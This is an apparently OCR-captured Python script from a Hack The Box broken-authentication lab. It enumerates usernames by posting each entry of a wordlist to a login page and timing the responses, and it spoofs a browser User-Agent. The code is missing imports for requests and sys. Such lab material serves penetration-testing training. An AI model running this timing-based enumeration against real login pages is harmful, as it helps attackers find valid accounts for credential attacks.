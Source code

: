 ```Python
import os.path

# define target url, change as needed
url = "http://brokenauthentication.hackthebox.eu/login.php"

# define a fake headers to present ourself as Chromium browser, change if needed
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36"}

# define the string expected if valid account has been found. our basic PHP example replies with Welcome in case of success

valid = "Welcome"

"""
wordlist is expected as simple list, we keep this function to have it ready if needed.
for this test we are using /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt
change this function if your wordlist has a different format
"""
def unpack(fline):
    userid = fline
    passwd = 'foobar'

    return userid, passwd

"""
our PHP example accepts requests via POST, and requires parameters as userid and passwd
"""
def do_req(url, userid, passwd, headers):
    data = {"userid": userid, "passwd": passwd, "submit": "submit"}
    res = requests.post(url, headers=headers, data=data)
    print("[+] user {:15} took {}".format(userid, res.elapsed.total_seconds()))

    return res.text

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()

    # open the file, this is our wordlist
    with open(fname) as fh:
        # read file line by line
        for fline in fh:
            # skip line if it starts with a comment
            if fline.startswith("#"):
                continue
            # use unpack() function to extract userid and password from wordlist, removing trailing newline
            userid, passwd = unpack(fline.rstrip())

            # call do_req() to do the HTTP request
            print("[-] Checking account {} {}".format(userid, passwd))
            res = do_req(url, userid, passwd, headers)

if __name__ == "__main__":
    main()
```
#### Run timing.py